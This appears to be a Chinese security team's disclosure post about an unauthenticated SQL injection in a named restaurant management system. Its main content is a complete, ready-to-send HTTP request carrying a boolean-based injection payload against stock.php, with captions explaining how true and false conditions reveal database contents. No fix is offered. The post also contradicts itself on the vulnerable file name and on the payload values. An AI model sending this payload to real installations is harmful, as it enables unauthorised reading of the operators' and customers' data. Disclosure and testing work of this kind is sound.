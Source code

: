 #  喰星云-数字化餐饮服务系统stock.php存在SQL注入漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-04 20:27  
  
## 1. 漏洞描述  
  
	  
喰星云-数字化餐饮服务系统 not_out_depot.php接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk1JGkIqBeC8Bibx7BAEvWicFLp20FkUibUIVM2wF87jusNWf5svnYiaDg8g/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
GET /logistics/home_warning/php/stock.php?do=getList&lsid=%28SELECT+%28CASE+WHEN+%289764%3D9765%29+THEN+%27%27+ELSE+%28SELECT+7700+UNION+SELECT+3389%29+END%29%29 HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate


```  
  
    报错注入，当条件WHEN+(6192=6193)不符合时，返回空内容：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk27MicbQ2vaGSw3Xdw1nqiaKqf4dOcla9nPQv5lLjksS1o2hokYvNGia4g/640?wx_fmt=png&from=appmsg "")  
  
    报错注入，当条件WHEN+(6193=6193)符合时，返回查询数据：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqkCWbmArwUcFeAJc5mQ1kPXb7mn1DiaAu8ia9sR0xm2sFL7AmQQBic0IRkw/640?wx_fmt=png&from=appmsg "")  
  
  

